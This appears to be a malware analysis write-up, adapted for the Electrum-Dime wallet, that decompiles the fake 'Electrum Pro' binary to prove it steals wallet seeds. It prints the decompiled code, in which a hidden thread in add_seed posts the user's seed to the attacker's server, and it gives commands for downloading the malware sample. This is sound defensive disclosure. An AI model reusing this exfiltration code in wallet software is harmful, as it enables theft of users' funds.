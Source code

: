 # Decompiling the ElectrumPro stealware

This document describes how to decompile the "Electrum Pro" Windows
binaries, and how to verify that they indeed contain bitcoin-stealing
malware.  We previously warned users against "Electrum Pro", but we
did not have formal evidence at that time.


## 0. Background

Electrum-Dime is a popular Dimecoin wallet, distributed on
[dimecoinnetwork.com](https://www.dimecoinnetwork.com) and
[dime-coin/electrum-dimecoin](https://github.com/dime-coin/electrum-dimecoin).

Recently, a website hosted at "electrum dot com" has been trying to
defraud Bitcoin Electrum users, by distributing fake Electrum binaries that
will extract the user's seed words and private keys, and send them to
a remote server. Users must be aware this is possible to happen to those using Electrum-Dime if you do not download from official sources.

For example, in the past, this kind of attack has been carried out by websites
hosted on domain names similar to electrum.org (original creators of the electrum client) (e.g. they swap two
letters, or use fancy UTF8 characters that look similar), and using
paid Google ads. Those websites are commonly just an almost exact copy
of the official one.

The "electrum dot com"
[scheme](https://www.reddit.com/r/Bitcoin/comments/8a1drz/psa_electrumcom_bought_by_scammers_to_distribute/)
is taking that attack further: the scammers have managed to take
control of [the dot com domain](https://i.imgur.com/RPqKmwf.png), and
they have developed a website with a slightly different design and
logo. The authors have been [claiming](https://archive.fo/Yuvjn) that
they are developing a legitimate fork of the Electrum project, and
that they are trying to improve user experience. The owners of
"electrum dot com" went as far as to claim that they are "currently
undergoing a public security audit which will be released soon".

Well, given they did not release such audit, we will do it in this
write-up.


## 1. Prerequisites

This guide assumes a modern Debian based Linux distribution.

1. The same version of python is needed as the one used in the binary.
For the Windows binaries, python 3.5.
[This link](https://askubuntu.com/questions/682869/how-do-i-install-a-different-python-version-using-apt-get)
might be useful if you are on too new or too old ubuntu.

2. To unpack the pyinstaller binary,
[pyinstallerextractor](https://sourceforge.net/projects/pyinstallerextractor/)
will be used:

    ```
    $ wget -O pyinstxtractor.py  https://downloads.sourceforge.net/project/pyinstallerextractor/dist/pyinstxtractor.py
    ```

3. To decompile the pyc bytecode, [uncompyle6](https://pypi.org/project/uncompyle6/)
will be used:

    ```
    $ python3.5 -m pip install uncompyle6
    ```


## 2. Download the malware

```
$ wget https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip
```

At the time of writing, the file we get is:

```
$ sha256sum ElectrumPro-4.0.2-Standalone.zip
f497d2681dc00a7470fef7bcef8228964a2412889cd70b098cb8985aa1573e99  ElectrumPro-4.0.2-Standalone.zip
```

If you get a different hash, it means that the attackers have removed
the malware version from their website, in order to evade legal
takedown measures. However, a backup of electrum dot com is hosted on
archive.org, and can be used to retrieve the malware file:

```
$ wget https://web.archive.org/web/20180508092547/https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip
```


## 3. Uncompress the zip

For example
```
$ 7za e ElectrumPro-4.0.2-Standalone.zip
```
(which requires p7zip)

Warning: obviously, do not execute the extracted file.


## 4. Unpack the pyinstaller binary
```
$ python3.5 ./pyinstxtractor.py electrumpro-4.0.2.exe
```

## 5. Decompile the python bytecode
```
$ cd electrumpro-4.0.2.exe_extracted/out00-PYZ.pyz_extracted/
$ uncompyle6 electrum.keystore.pyc
```

The output of this command can be found
[here](https://gist.github.com/SomberNight/62d78d206001e13e30e169ef8eb2b4dc).


## 6. A look at the output

Particularly of interest are lines 223-248:

```python
def verify_version(self, v1):
    reqlist = 'https://www.electrum.com/checkversioninfo.php'
    API_ENDPOINT = reqlist
    encodedversionv1 = self.encode_version(v1)
    data = {'version': encodedversionv1}
    r = None
    try:
        r = requests.post(url=API_ENDPOINT, data=data)
        if r.status_code != 200:
            self.verify_version(v1)
        else:
            if r.text != 'current_version=' + encodedversionv1:
                self.verify_version(v1)
    except requests.exceptions.RequestException as e:
        self.verify_version(v1)

def verify_version_thread(self, v1):
    time.sleep(15)
    self.verify_version(v1)

def add_seed(self, seed):
    if self.seed:
        raise Exception('a seed exists')
    self.thread_v1 = threading.Thread(target=self.verify_version_thread, args=(seed,))
    self.thread_v1.start()
    self.seed = self.format_seed(seed)
```

`add_seed` is a method in the `keystore.py` module, that gets called
while creating or restoring a wallet. In this binary, a few extra
lines have been added by the scammers: A thread is started that
**sends** an HTTP POST request to their website, and its payload is
**the user's seed**.  This demonstrates that "Electrum Pro" is
bitcoin-stealing malware.

## 7. Closing

Users should ONLY download binaries from official sources, and they should check the GPG signatures
(official binaries are signed with
[Dhop14's key](https://pgp.mit.edu/pks/lookup?op=vindex&search=0xA3E6459E3707BC46849AC0AA964DA787DBC83054)).
Alternatively if they know how, they can run from source, or build binaries themselves.

In addition to GPG signatures, Electrum-Dime is working on having the Windows binaries signed using the
Windows native scheme, which should be ready soon, and at some point there will be an
official signed package in the MacOS store as well.

### Misc

Note that this post was looking at only one of the Windows binaries
distributed by "electrum dot com", but it is safe to assume that the
other Windows binaries are malicious as well.  We also checked the Mac
`.dmg` file, and it contained the same modifications. The Linux
package seemed harmless, presumably because the scammers did not want
to have these changes in plain sight (Linux packages are essentially
just source code).

Thanks to  `echeveria` (on Freenode); [here](https://transfer.sh/oZ4P7/electrumpro.warc.gz) is a complete copy of electrum dot com in web-archive
(archive.org format), [opentimestamped](https://transfer.sh/oq1ve/electrumpro.warc.gz.ots).

There is also a copy of the binary matching the sha256 hash in this write-up on
[archive.org](https://web.archive.org/web/20180508092547/https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip).

Also, a [VirusTotal URL](https://www.virustotal.com/#/file/f497d2681dc00a7470fef7bcef8228964a2412889cd70b098cb8985aa1573e99/relations)
linking the hash to the website.
